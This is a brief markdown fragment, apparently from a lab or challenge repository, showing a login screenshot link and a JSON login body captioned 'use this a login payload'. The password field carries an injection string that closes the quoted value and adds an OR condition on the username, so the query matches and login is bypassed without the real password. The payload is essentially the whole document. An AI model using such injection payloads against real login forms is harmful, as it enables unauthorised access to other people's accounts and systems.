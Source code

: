 ![login](./Screenshot%202024-01-06%20at%2010.55.46.png)


use this a login payload

```json
{
    "username": "skat",
    "password": "\" OR username = 'skat'\""
}
```
